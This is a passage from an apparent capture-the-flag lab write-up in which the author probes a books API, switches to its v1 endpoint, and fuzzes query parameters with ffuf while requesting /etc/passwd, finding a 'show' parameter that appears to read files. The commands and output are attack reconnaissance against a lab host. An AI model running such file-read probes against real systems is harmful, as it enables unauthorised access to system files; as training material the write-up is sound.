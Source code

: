 I also attempted to change  ```v2``` to ```v1``` , maybe v1 had a vulnerability associated with it.

```bash
┌──(viorage㉿kali)-[~]
└─$ curl -s http://10.10.111.74:5000/api/v1/resources/books?id=1
[
  {
    "author": "Ann Leckie ", 
    "first_sentence": "The body lay naked and facedown, a deathly gray, spatters of blood staining the snow around it.", 
    "id": "1", 
    "published": 2014, 
    "title": "Ancillary Justice"
  }
]
```
___

## Fuzzing API (v1) with FFuF
With the previous hint, fuzzing the api for a possible parameter to read files seems like a logical choice.

```bash
┌──(viorage㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/common.txt -u  "http://10.10.111.74:5000/api/v1/resources/books?FUZZ=/etc/passwd"                                                                         1 ⨯

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.111.74:5000/api/v1/resources/books?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

author                  [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 226ms]
id                      [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 226ms]
published               [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 229ms]
show                    [Status: 200, Size: 1555, Words: 9, Lines: 31, Duration: 224ms]
```
